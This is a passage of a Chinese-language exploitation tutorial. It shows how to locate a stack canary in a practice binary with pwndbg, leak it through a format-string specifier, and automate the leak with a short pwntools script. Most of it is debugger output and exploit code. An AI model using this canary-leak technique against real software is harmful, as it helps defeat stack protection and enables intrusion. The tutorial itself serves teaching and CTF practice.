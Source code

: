 现在我们需要计算 Canary 所在的偏移量，为此我们将使用 pwndbg。

```
$ pwndbg vuln-32

$ b *0x080491d7
$ r
Leak me
%p

Breakpoint 1, 0x080491d7 in vuln ()
[...]
$ x/24wx $esp
0xffffd6e0:	0xffffd6fc	0x00000001	0xf7ffda20	0x0804919e
0xffffd6f0:	0x00000000	0xffffd9ab	0x00000002	0x00007025
0xffffd700:	0xf7ffcfd8	0x00000028	0x00000000	0xffffdfcd
0xffffd710:	0xf7fc6570	0xf7fc6000	0x00000000	0x00000000
0xffffd720:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd730:	0xffffffff	0xf7c0c850	0xf7fc0380	0x437aa500
```

最后一个输出的值是 Canary。我们可以从以下几点来判断：

1. 它距离缓冲区开始的地址约 64 字节，这很接近缓冲区末尾的位置。
2. 它的末尾是 `\x00` ，和以 `ff` 和 `f7` 开头的 libc 库地址不同，看起来非常随机。

从缓冲区开始，我们大约输出了 24 个地址，然后可以找到 Canary 的值。所以我们可以
在它前后各输出一个地址，来确定 Canary 的位置。

```
$ ./vuln-32
Leak me
%23$p %24$p %25$p
0x4c1e00 (nil) 0xf7e43e34
```

似乎是 `%23$p`。

*注：Canary 对于每个新进程都是随机的，因此不会相同。*

现在让我们用 pwntools 自动抓取 Canary：

```python {title="canary.py"}
from pwn import *

context.log_level = 'debug'

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')
```

```
$ python exp.py
[+] Starting local process './vuln-32': pid 10042
[*] Leak me
[+] Canary: 0x143e3e00
```
